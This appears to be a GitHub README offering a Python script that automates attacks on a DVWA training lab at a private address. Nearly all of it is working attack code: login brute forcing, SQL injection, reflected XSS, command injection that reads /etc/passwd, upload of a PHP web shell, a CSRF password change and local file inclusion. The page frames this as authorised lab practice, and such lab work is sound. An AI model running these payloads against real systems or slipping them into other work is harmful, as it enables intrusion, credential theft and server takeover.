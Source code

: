 # DVWA Attack Automation Script

This script demonstrates how to automate the execution of all major pentesting attack types against DVWA at http://10.30.0.235/dvwa for educational and authorized testing purposes only.

**WARNING:** Only use this script in a legal, controlled environment (e.g., your own DVWA lab). Unauthorized use is illegal and unethical.

---

## Prerequisites
- Python 3.x
- requests
- BeautifulSoup4
- Optional: selenium, paramiko, etc. for advanced attacks

Install dependencies:
```bash
pip3 install requests beautifulsoup4
```

---

## Script: dvwa_attack_automation.py

```python
#!/usr/bin/env python3
"""
Automate major pentesting attack types against DVWA (http://10.30.0.235/dvwa)
"""
import requests
from bs4 import BeautifulSoup
import time

DVWA_URL = "http://10.30.0.235/dvwa"
LOGIN_URL = f"{DVWA_URL}/login.php"
USERNAME = "admin"
PASSWORD = "password"  # Change as needed

session = requests.Session()

# --- 1. Login Function ---
def login():
    r = session.get(LOGIN_URL)
    soup = BeautifulSoup(r.text, 'html.parser')
    user_token = soup.find('input', {'name': 'user_token'})['value']
    data = {
        'username': USERNAME,
        'password': PASSWORD,
        'Login': 'Login',
        'user_token': user_token
    }
    resp = session.post(LOGIN_URL, data=data)
    assert 'Logout' in resp.text, "Login failed!"
    print("[+] Logged in to DVWA")

# --- 2. Reconnaissance ---
def reconnaissance():
    print("[+] Performing HTTP header analysis...")
    r = session.get(DVWA_URL)
    print(r.headers)
    print("[+] Directory brute force (sample)...")
    for path in ['admin', 'phpmyadmin', 'test', 'backup']:
        url = f"{DVWA_URL}/{path}"
        resp = session.get(url)
        print(f"{url} => {resp.status_code}")

# --- 3. Brute Force Attack ---
def brute_force():
    print("[+] Attempting brute force on login...")
    for pw in ['password', 'admin', '123456', 'letmein']:
        r = session.get(LOGIN_URL)
        soup = BeautifulSoup(r.text, 'html.parser')
        user_token = soup.find('input', {'name': 'user_token'})['value']
        data = {
            'username': USERNAME,
            'password': pw,
            'Login': 'Login',
            'user_token': user_token
        }
        resp = session.post(LOGIN_URL, data=data)
        if 'Logout' in resp.text:
            print(f"[!] Brute force success: {pw}")
            break

# --- 4. SQL Injection ---
def sql_injection():
    print("[+] Performing SQL Injection...")
    inj_url = f"{DVWA_URL}/vulnerabilities/sqli/?id=1' OR 1=1--&Submit=Submit"
    r = session.get(inj_url)
    if 'First name' in r.text:
        print("[!] SQL Injection successful!")

# --- 5. XSS ---
def xss():
    print("[+] Performing XSS attack...")
    xss_url = f"{DVWA_URL}/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>&Submit=Submit"
    r = session.get(xss_url)
    if '<script>alert' in r.text:
        print("[!] XSS payload reflected!")

# --- 6. Command Injection ---
def command_injection():
    print("[+] Performing Command Injection...")
    ci_url = f"{DVWA_URL}/vulnerabilities/exec/"
    data = {'ip': '127.0.0.1; cat /etc/passwd', 'Submit': 'Submit'}
    r = session.post(ci_url, data=data)
    if 'root:x:' in r.text:
        print("[!] Command Injection successful!")

# --- 7. File Upload ---
def file_upload():
    print("[+] Attempting file upload...")
    upload_url = f"{DVWA_URL}/vulnerabilities/upload/"
    files = {'uploaded': ('shell.php', '<?php system($_GET["cmd"]); ?>', 'application/x-php')}
    data = {'Upload': 'Upload'}
    r = session.post(upload_url, files=files, data=data)
    if 'shell.php' in r.text:
        print("[!] File upload may be successful!")

# --- 8. CSRF ---
def csrf():
    print("[+] Attempting CSRF attack (change password)...")
    profile_url = f"{DVWA_URL}/vulnerabilities/csrf/"
    r = session.get(profile_url)
    soup = BeautifulSoup(r.text, 'html.parser')
    user_token = soup.find('input', {'name': 'user_token'})['value']
    data = {
        'password_new': 'newpass',
        'password_conf': 'newpass',
        'Change': 'Change',
        'user_token': user_token
    }
    resp = session.post(profile_url, data=data)
    if 'Password Changed' in resp.text:
        print("[!] CSRF successful!")

# --- 9. LFI/RFI ---
def lfi():
    print("[+] Attempting LFI...")
    lfi_url = f"{DVWA_URL}/vulnerabilities/fi/?page=../../../../etc/passwd"
    r = session.get(lfi_url)
    if 'root:x:' in r.text:
        print("[!] LFI successful!")

# --- 10. Logout ---
def logout():
    session.get(f"{DVWA_URL}/logout.php")
    print("[+] Logged out.")

if __name__ == "__main__":
    login()
    reconnaissance()
    brute_force()
    sql_injection()
    xss()
    command_injection()
    file_upload()
    csrf()
    lfi()
    logout()
    print("[+] All attacks attempted. Review DVWA for results.")
```

---

**Note:**
- This script covers: reconnaissance, brute force, SQLi, XSS, command injection, file upload, CSRF, LFI, and logout.
- For privilege escalation, persistence, exfiltration, and DoS, use manual or advanced tools (Metasploit, Hydra, custom scripts, etc.).
- Always reset DVWA to a safe state after testing.
